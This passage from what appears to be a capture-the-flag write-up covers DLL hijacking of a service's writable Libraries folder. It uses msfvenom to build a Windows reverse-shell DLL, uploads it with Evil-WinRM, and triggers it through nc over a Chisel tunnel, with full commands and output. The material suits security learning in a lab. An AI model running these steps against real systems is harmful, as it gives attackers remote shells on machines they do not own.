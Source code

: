 I don’t have access to `ReportManagementHelper.exe`, but it seems if there’s a `externalupload.dll` in `Libraries` that it will be passed to that executable when it is called, which suggests it will be loaded. Since I can write to `Libraries`, I’ll generate a malicious DLL that creates a reverse shell, upload it, and then connect and trigger it.

#### Generate Payload

I haven’t seen any AV running here, so the simplest idea is to generate a DLL payload using `msfvenom` from Metasploit.

```

oxdf@hacky$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 -f dll -o externalupload.dll -a x64 --platform windows
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: externalupload.dll

```

I’m using an unstaged payload so I can catch it in `nc`. If I had used `windows/x64/shell/reverse/tcp`, that would create one I had to catch in Metasploit.

I’ll upload this to the `Libraries` directory:

```
*Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> upload externalupload.dll
Info: Uploading externalupload.dll to C:\Program Files\ReportManagement\Libraries\externalupload.dll
                                                             
Data: 12288 bytes of 12288 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Program Files\ReportManagement\Libraries> ls

    Directory: C:\Program Files\ReportManagement\Libraries

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2024   9:19 AM           9216 externalupload.dll

```

#### Trigger

Now I’ll connect to the service over my Chisel tunnel and trigger it:

```

oxdf@hacky$ rlwrap nc localhost 10000
Reports Management administrative console. Type "help" to view available commands.
‌upload 0xdf
Attempting to upload to external source.

```
